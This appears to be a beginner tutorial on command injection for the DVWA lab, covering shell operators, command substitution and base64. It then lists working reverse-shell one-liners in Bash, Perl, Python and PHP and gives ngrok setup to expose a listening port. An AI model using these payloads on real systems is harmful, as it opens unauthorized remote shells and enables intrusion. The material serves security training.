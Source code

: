 ## 1. Command Injection Attack

![](https://i.ytimg.com/vi/UBWMLFbjPBc/maxresdefault.jpg)
>We will use DVWA Labs To Learn Bruteforce Attacks

# Linux Command syntax
| Character | Action |
|--|--|
| ; | And |
| && | And |
| \|\| | Or |
| \| | Share Output To Second Command |
| * | It can be use as 'all' or  auto complete |
```
ls -lah /tmp
```
>ls = command to be executed, -lah = Options, /tmp = Argument

# Command Substitution

```
echo $(pwd)
echo `whoami`
```

# Base64 Encoding/Decoding

```
echo "yellphonenaing" | base64
Output => eWVsbHBob25lbmFpbmcK

echo "eWVsbHBob25lbmFpbmcK" | base64 -d
Output => yellphonenaing
```

# Reverse Shell Connection

**BASH**
```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

**Perl**
```
perl -e 'use Socket;$i="127.0.0.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**
```
php -r '$sock=fsockopen("127.0.0.1",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# Port Forwarding
**Install And Setup Ngrok**
```
cd /tmp
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip
unzip ngrok-stable-linux-arm.zip && sudo chmod 755 /usr/bin/ngrok
sudo cp ngrok /usr/bin # (For Linux)
cp ngrok $PREFIX/bin && chmod 755 /usr/bin/ngrok (For Termux)
ngrok authtoken  tokenishere #(Token can be got at https://ngrok.com/)
```

**Start TCP Port Forwarding**
```
ngrok tcp 1234 #1234 is your custom port number
```
